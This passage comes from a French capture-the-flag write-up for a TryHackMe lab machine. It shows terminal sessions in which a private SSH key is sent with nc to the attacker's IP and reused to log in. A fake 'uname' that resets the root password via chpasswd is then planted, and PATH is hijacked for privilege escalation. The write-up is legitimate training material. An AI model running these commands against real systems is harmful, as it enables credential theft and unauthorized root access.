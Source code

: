 ```bash
|    .=Bo    . .+o|
|   .++++ .  . ...|
|   .o..oO .. . ..|
|     . ..*o.    .|
+----[SHA256]-----+
hermonine@hogwartz-castle:/home/hermonine/.ssh$ cp id_rsa.pub authorized_keys

-----------

tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > key

-----------

hermonine@hogwartz-castle:~/.ssh$ nc 10.9.228.66 1234 < id_rsa
tim@kali:~/Bureau/tryhackme/write-up$ chmod 700 key 

-------------
tim@kali:~/Bureau/tryhackme/write-up$ ssh -i key hermonine@hogwartz-castle.thm
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Tue Oct  5 08:16:03 2021 from 127.0.0.1

```

On génère des nouvelles clefs et on se connecte avec un bon shell.  

```bash
hermonine@hogwartz-castle:~$ python3 2time.py
b'Guess my number: Nice use of the time-turner!\n'
b'This system architecture is x86_64\n'
```

On voit que notre scripte fonctionne que uname -p est exécuté.   

```bash
hermonine@hogwartz-castle:~$ cd /tmp
hermonine@hogwartz-castle:/tmp$ 
hermonine@hogwartz-castle:~$ cd /tmp
hermonine@hogwartz-castle:/tmp$ echo '#!/bin/sh' > uname
hermonine@hogwartz-castle:/tmp$ echo 'echo "root:root" | chpasswd' >> uname
hermonine@hogwartz-castle:/tmp$ chmod u+x uname 
```

On va créer un faux uname qui exécute un bash.   

```bash
hermonine@hogwartz-castle:/tmp$ export PATH=/tmp:$PATH
```

On modifie le variable PATH pour que notre faux fichier s'exécute en permier.  
